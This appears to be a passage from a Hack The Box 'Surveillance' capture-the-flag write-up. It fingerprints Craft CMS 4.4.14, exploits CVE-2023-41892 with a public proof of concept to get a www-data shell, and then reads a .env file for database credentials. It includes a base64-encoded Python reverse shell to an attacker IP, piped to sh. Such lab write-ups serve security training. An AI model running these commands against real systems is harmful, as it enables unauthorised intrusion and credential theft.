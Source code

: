 From view-source:

```html
<!-- footer section -->|
<section class="footer_section">
<div class="container">
<p>
&copy; <span id="displayYear"></span> All Rights Reserved By
SURVEILLANCE.HTB</a><br> <b>Powered by <a href="[https://github.com/craftcms/cms/tree/4.4.14](https://github.com/craftcms/cms/tree/4.4.14)"/>Craft CMS</a></b>
</p>
</div>
</section>
```

This version of Craft CMS should be vulnerable to [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892). A PoC is [available](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce).

## RCE

```console
$ python3 ./51918.py http://surveillance.htb/
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

> echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEyIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn|sh
```

## PE

```console
www-data@surveillance:~/html$ netstat -lnpt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      1101/nginx: worker
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1101/nginx: worker
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Found some credentials for the `mysql` database:

```console
www-data@surveillance:~/html/craft$ pwd
pwd
/var/www/html/craft
www-data@surveillance:~/html/craft$ cat .env
cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production
```